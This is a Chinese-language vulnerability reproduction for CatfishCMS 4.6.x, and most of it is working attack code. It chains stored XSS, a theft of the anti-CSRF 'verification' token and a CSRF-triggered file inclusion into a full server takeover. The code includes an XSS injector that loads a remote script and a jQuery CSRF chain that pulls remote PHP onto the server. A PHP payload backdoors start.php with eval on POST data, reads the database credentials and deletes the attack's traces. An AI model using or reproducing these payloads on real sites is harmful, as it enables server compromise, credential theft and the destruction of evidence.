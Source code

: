 CatfishCMS 4.6.15 csrf getshell
===============================

一、漏洞简介
------------

在测试的过程中发现更新版本的时候作者添加一个参数 verification
可能是用来防治csrf。嗯，不得不说，作者安全意识提高了，用来防治csrf这的却是一个好思路，但是对于我们可以执行xss来说，verification
就显的苍白无力了，因为我们可以先获取verification 然后在执行csrf 从而来绕过。

二、漏洞影响
------------

CatfishCMS 4.6

三、复现过程
------------

### 漏洞分析

文件：CatfishCMS-4.6.12\\catfish\\library\\think\\Template.php

函数：fetch()

![](/Users/aresx/Documents/VulWiki/.resource/CatfishCMS4.6.15csrfgetshell/media/rId25.png)

![](/Users/aresx/Documents/VulWiki/.resource/CatfishCMS4.6.15csrfgetshell/media/rId26.png)

![](/Users/aresx/Documents/VulWiki/.resource/CatfishCMS4.6.15csrfgetshell/media/rId27.png)

![](/Users/aresx/Documents/VulWiki/.resource/CatfishCMS4.6.15csrfgetshell/media/rId28.png)

![](/Users/aresx/Documents/VulWiki/.resource/CatfishCMS4.6.15csrfgetshell/media/rId29.png)

![](/Users/aresx/Documents/VulWiki/.resource/CatfishCMS4.6.15csrfgetshell/media/rId30.png)

嗯，说完了。Fetch方法最后都会编译文件以后通过PHP输出，所以如果我们可以在他编译之前写入恶意代码 那么就可以为所欲为。

### 复现

前台注册一个账户-\>注册一个图片马到网站中-\>评论处插入xss代码-\>等待无辜管理员登录网站-\>获取
verification(绕过检测)-\>管理员入口-页面管理-新建页面-csrf插入一条非法语句引起包含漏洞(用来包含前面的图片马)-\>包含漏洞执行代码-\>包含漏洞添加getshell\_code.php文件写入恶意代码-\>包含漏洞-将框架文件start.php添加一句话木马-包含数据库配置文件-连接数据库-\>删除我们前面的评论-\>删除我们csrf创建的页面-\>邮件通知我们-\>getshell

CatfishCMS-4.6.12-xss.js

    /*  
        需要插入的xss代码
        <img src="#" alt="xss_csrf_getshll" onerror="var url = 'http://127.0.0.1/cms/CatfishCMS-4.6.12/xss-js/CatfishCMS-4.6.12-xss.js';xss_js = '<scr'+'ipt src='+url+'><\/sc'+'ript>';$('body').append(xss_js);">
    */ 

    //不用动的
    var articles = 'index.php/admin/Index/articles.html';//用来获取 verification 绕过检测
    var newpage = 'index.php/admin/Index/newpage.html';//生成文章地址
    var allpage = 'index.php/admin/Index/allpage.html';//获取文章链接

    //需要改的
    var url = 'http://0-sec.org';//你要日的站的域名
    var directory = '/cms/CatfishCMS-4.6.12/'; //日的站的额外目录一般为空即可(站点设置二级目录时，此目录要填写)
    var img_trojan_url = '../../../'+'data/uploads/20171201/2c8b7c7f1d49faeb5321ce0c9b1962af.jpg';//图片马的地址 修改 + 号后面的即可
    var getshell_code = 'http://127.0.0.1/cms/CatfishCMS-4.6.12/xss-js/getshell_code.txt';//恶意代码远程包含的地址

    $('body').append('<div id="csrf_verification" style="display:none;"></div>');
    $('body').append('<div id="csrf_allpage" style="display:none;"></div>');

    $.ajax({
        url: url+directory+articles,
        dataType: "json",
        success: function(verification_content){
            $('#csrf_verification').append(verification_content);
            var verification = $('#verification').html();//用来绕过验证的
            // alert(verification);

            //csrf生成文章,引起文件包含漏洞
            $.ajax({
                type: "POST",
                url: url+directory+newpage,
                data: {
                    'biaoti':'xss_csrf_getshll',
                    'template':img_trojan_url,
                    'verification':verification,
                    'fabushijian':'2017-12-05 11:56:48'
                },
                success: function(){
                    //csrf获取shell链接
                    $.ajax({
                        type: "POST",
                        url: url+directory+allpage,
                        success: function(allpage_content){
                            $('#csrf_allpage').append(allpage_content);
                            var shell_id = $('#csrf_allpage .table-responsive .table-bordered tbody tr td .gouxuan').eq(0).val();
                            var shell_url = $('#csrf_allpage .table-responsive .table-bordered tbody tr td a').eq(0).attr('href');

                            var shell_content = '';
                                shell_content+= "$myfile = fopen('getshell_code.php', 'w');";
                                shell_content+= '$txt = '+'file_get_contents("'+getshell_code+'");';
                                shell_content+= 'fwrite($myfile, $txt);';
                                console.log(shell_content);
                            
                            //执行shell 生成马子
                            $.ajax({
                                type: "POST",
                                url: url+shell_url,
                                dataType: "json",
                                data: {'ddd':shell_content},
                                success: function(data){
                                    $.ajax({
                                        type: "GET",
                                        url: url+directory+'getshell_code.php',
                                        dataType: "json", 
                                        // data: {'zzz':1}
                                    });
                                },
                                error: function(){
                                    $.ajax({
                                        type: "GET",
                                        url: url+directory+'getshell_code.php',
                                        dataType: "json", 
                                        // data: {'zzz':1}
                                    });
                                }   
                            });

                        } 
                    });

                } 
            });

        }
    });

![](/Users/aresx/Documents/VulWiki/.resource/CatfishCMS4.6.15csrfgetshell/media/rId32.png)

![](/Users/aresx/Documents/VulWiki/.resource/CatfishCMS4.6.15csrfgetshell/media/rId33.png)

写好以后模拟管理员，进入后台

![](/Users/aresx/Documents/VulWiki/.resource/CatfishCMS4.6.15csrfgetshell/media/rId34.png)

![](/Users/aresx/Documents/VulWiki/.resource/CatfishCMS4.6.15csrfgetshell/media/rId35.png)

![](/Users/aresx/Documents/VulWiki/.resource/CatfishCMS4.6.15csrfgetshell/media/rId36.png)

![](/Users/aresx/Documents/VulWiki/.resource/CatfishCMS4.6.15csrfgetshell/media/rId37.png)

getshell\_code

    <?php  
        $start_content = file_get_contents('catfish/start.php').'eval(@$_POST[ddd]);';
        $start = fopen('catfish/start.php', 'w');
        fwrite($start, $start_content);
        if( @$_GET[zzz]){
            $config = require_once("application/database.php");
            //分别对应的是 地址，端口号，连接的数据库，编码
            $dsn = "mysql:host={$config['hostname']}; port={$config['hostport']}; dbname={$config['database']}; charset={$config['charset']}";
            $user = $config['username'];
            $psw = $config['password'];
            $pdo = new PDO($dsn,$user,$psw);
            $sql = "DELETE from catfish_posts WHERE post_title LIKE '%xss_csrf_getshll%'";
            $sql_1 = "DELETE from catfish_comments WHERE content LIKE '%xss_csrf_getshll%'";
            $pdo->query($sql);
            $pdo->query($sql_1);
            unlink('getshell_code.php');
        }
    ?>

![](/Users/aresx/Documents/VulWiki/.resource/CatfishCMS4.6.15csrfgetshell/media/rId38.png)

连接马子的操作，这个文件会在index.php中给引入所以直接

    http://0-sec.org/index.php

    POST

    ddd = 你要执行的命令

![](/Users/aresx/Documents/VulWiki/.resource/CatfishCMS4.6.15csrfgetshell/media/rId39.png)

![](/Users/aresx/Documents/VulWiki/.resource/CatfishCMS4.6.15csrfgetshell/media/rId40.png)
